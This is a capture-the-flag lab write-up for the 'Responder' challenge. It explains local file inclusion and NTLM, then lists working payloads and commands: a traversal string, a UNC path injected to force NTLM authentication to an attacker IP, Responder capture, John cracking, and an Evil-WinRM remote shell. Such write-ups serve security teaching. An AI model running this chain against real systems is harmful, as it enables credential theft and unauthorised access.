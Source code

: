 
# Responder Challenge – Full Attack Chain

## 1. What is LFI (Local File Inclusion)?

**Local File Inclusion (LFI)** is a web vulnerability that occurs when a web application dynamically loads files based on user input, without properly validating or sanitizing that input. This can lead to an attacker reading arbitrary files on the server.

Example:
```
http://target.htb/index.php?page=french.html
```
If the input is not sanitized:
```
?page=../../../../windows/system32/drivers/etc/hosts
```
This allows file reading from the server.

## 2. Leveraging LFI to Trigger SMB Authentication

On Windows, accessing a path like:
```
\\10.10.14.5\share
```
causes the system to attempt an SMB connection and send NTLM authentication data.

An attacker can insert this path through LFI:
```
?page=\\10.10.14.5\abc
```

## 3. What is NTLM?

**NTLM (New Technology LAN Manager)** is a Microsoft authentication protocol.

**Steps:**
1. Client sends username and domain.
2. Server sends a challenge.
3. Client encrypts the challenge using the password hash.
4. Client sends the encrypted response.
5. Server validates the response by doing the same encryption.

## 4. NT Hash vs NetNTLMv2

- **NT Hash**: `MD4(UTF-16LE(password))` – stored in SAM or Active Directory.
- **NetNTLMv2**: The formatted challenge-response sent during NTLM authentication over the network.

## 5. Responder: Capturing NTLM Authentication

**Responder** mimics SMB/HTTP/FTP servers to capture NTLM credentials.

Command:
```
sudo responder -I tun0
```

Attacker triggers LFI with SMB path, e.g.:
```
?page=\\attacker-ip\share
```

Responder captures:
- Username
- Domain
- Challenge
- Encrypted Response

## 6. Cracking NetNTLMv2 with John

Save captured hash into `hash.txt`:

Run:
```
john hash.txt --format=netntlmv2 --wordlist=/usr/share/wordlists/rockyou.txt
```

John tries passwords until it finds one that produces the same response.

## 7. Using Evil-WinRM for Remote Shell

With cracked credentials (e.g. `administrator:badminton`):

Command:
```
evil-winrm -i 10.10.10.X -u administrator -p badminton
```

This opens a remote PowerShell session.

## 8. Reading the Flag

Commands:
```
cd C:\Users
dir
cd mike\Desktop
dir
type flag.txt
```

## Summary Table

| Step | Description |
|------|-------------|
| 1 | Find LFI vulnerability |
| 2 | Trigger SMB connection with UNC path |
| 3 | Capture NetNTLMv2 using Responder |
| 4 | Save and prepare hash file |
| 5 | Crack with John |
| 6 | Log in using Evil-WinRM |
| 7 | Read flag from user's Desktop |
